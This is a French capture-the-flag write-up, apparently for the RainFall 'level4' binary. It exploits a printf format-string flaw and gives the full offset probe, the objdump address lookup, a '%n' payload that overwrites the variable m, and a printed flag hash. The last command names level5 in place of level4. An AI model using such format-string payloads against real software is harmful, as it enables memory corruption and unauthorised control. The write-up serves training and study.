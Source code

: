 # Analyse du code

Dans le code nous voyons qu'il y a une fonction n(), qui print le flag lorsque m = 0x1025544.
Nous ne pouvons pas interagir directement avec m, mais grace a printf qui manque de sanitazer, nous pouvons exploiter cette faille afin de changer la valeur de m

# Preparation du payload

- trouver le buffer utilser par printf

echo $(python -c "print('a'*4 + '.%x' * 12)") | ./level4 
aaaa.b7ff26b0.bffff794.b7fd0ff4.0.0.bffff758.804848d.bffff550.200.b7fd1ac0.b7ff37d0.61616161

- adresse de m
	level4@RainFall:~$ objdump -t ./level4  |grep m
	./level4:     file format elf32-i386
	[…]
	08 04 98 10 g     O .bss   00000004              m
	[…]
- payload
	$(python -c "print('\x10\x98\x04\x08' + '%16930112x%12\$n')") 

# Exploit
	echo $(python -c "print('\x10\x98\x04\x08' + '%16930112x%12\$n')") > /tmp/_
	cat /tmp/_ | level5
	0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
